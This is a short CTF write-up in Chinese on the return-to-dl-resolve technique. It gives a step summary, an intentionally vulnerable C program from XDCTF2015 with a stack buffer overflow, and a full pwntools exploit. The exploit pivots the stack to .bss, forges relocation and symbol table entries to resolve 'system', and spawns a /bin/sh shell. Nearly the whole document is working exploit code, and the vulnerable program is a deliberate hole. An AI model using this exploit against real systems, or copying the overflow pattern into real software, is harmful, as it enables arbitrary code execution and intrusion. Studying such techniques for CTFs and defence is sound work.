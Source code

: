 # Return-to-dl-resolve
&#8195;参加大佬的讲解，非常非常的详细！！！这里简单总结为如下的内容，主要需要了解动态重定向的过程。其实感觉这样一步一步的fake，貌似还更容易理解<br>
&#8195;1、通过栈溢出，构造rop，向bss段某位置写入数据<br>
&#8195;2、将栈地址改向bss段<br>
&#8195;3、写入正常的shellcode，使用write输出‘/bin/sh’（通过write plt）<br>
&#8195;4、修改为通过plt 0，给出reloc的偏移<br>
&#8195;5、构造假的重定向表，给出在动态链接符号表中的偏移<br>
&#8195;6、构造假的dynsym，给出在字符串表中的偏移<br>
&#8195;7、构造所需函数的字符串名字，改变参数<br>


## vuln code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

## exp

```
from pwn import *
import time,sys,binascii

elf_name = "./bof"
elf = ELF(elf_name)

io = process( elf_name )
gdb.attach(io, "b *0x08048535")

write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = 0x0804A020

bss_addr = 0x0804a040
stack_size = 0x800
bss_stage = bss_addr + stack_size

ppp_ret = 0x080485cc
pop_ebp_ret = 0x080485ce
leave_ret = 0x08048468
#write_offset = 0x28

payload1 = 'a' * 112
payload1 += p32(read_plt)
payload1 += p32(ppp_ret)
payload1 += p32(0)
payload1 += p32(bss_stage)
payload1 += p32(0x100)
payload1 += p32(pop_ebp_ret)
payload1 += p32(bss_stage)
payload1 += p32(leave_ret)
payload1 += 'a' * (0x100 - len(payload1))
io.send(payload1)

dynsym = 0x080481d8
dynstr = 0x08048278

plt_0 = 0x08048390  #objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
r_index = (bss_stage + 28) - rel_plt

align = (0x10 - (bss_stage + 36 - dynsym) & 0xf)
fake_sym_addr = bss_stage + 36 + align
sym_index = (fake_sym_addr - dynsym) / 0x10

r_offset = write_got
r_info = (sym_index << 8) | 0x7
fake_reloc = p32(r_offset) + p32(r_info)

str_addr = fake_sym_addr + 0x10
str_offset = str_addr - dynstr
fake_sym = p32(str_offset) + p32(0x0) + p32(0x0) + p32(0x12)


cmd = '/bin/sh'
payload2 = 'aaaa'
payload2 += p32(plt_0)
payload2 += p32(r_index)
payload2 += 'aaaa'
payload2 += p32(bss_stage + 0x80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'a' * align
payload2 += fake_sym
payload2 += 'system' + '\x00'
payload2 += 'a' * (0x80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'a' * (0x100 - len(payload2))

io.send(payload2)

io.interactive()

```
